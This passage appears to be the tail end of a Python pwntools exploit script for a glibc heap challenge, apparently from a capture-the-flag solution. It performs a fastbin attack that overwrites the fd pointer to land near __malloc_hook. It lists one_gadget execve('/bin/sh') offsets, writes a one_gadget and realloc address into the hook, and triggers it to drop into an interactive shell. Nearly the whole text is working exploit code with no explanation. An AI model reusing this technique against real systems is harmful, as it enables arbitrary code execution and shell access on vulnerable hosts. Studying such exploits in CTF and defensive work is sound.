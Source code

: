 ```python
add(0x68,'skye')#2
remove(2)
edit(1,len(p64(malloc_hook-27-8)),p64(malloc_hook-27-8))
add(0x68,'skye')

'''
0x45226 execve("/bin/sh", rsp+0x30, environ)
constraints:
  rax == NULL

0x4527a execve("/bin/sh", rsp+0x30, environ)
constraints:
  [rsp+0x30] == NULL

0xf0364 execve("/bin/sh", rsp+0x50, environ)
constraints:
  [rsp+0x50] == NULL

0xf1207 execve("/bin/sh", rsp+0x70, environ)
constraints:
  [rsp+0x70] == NULL

'''
onegadget = libc_base + 0x4526a#0x4527a
add(0x68,'a'*11+p64(onegadget)+p64(realloc))
# gdb.attach(p)
p.recvuntil(':')
p.sendline('2')
p.recvuntil('name:')
p.sendline(str(0x68))


p.interactive()
```

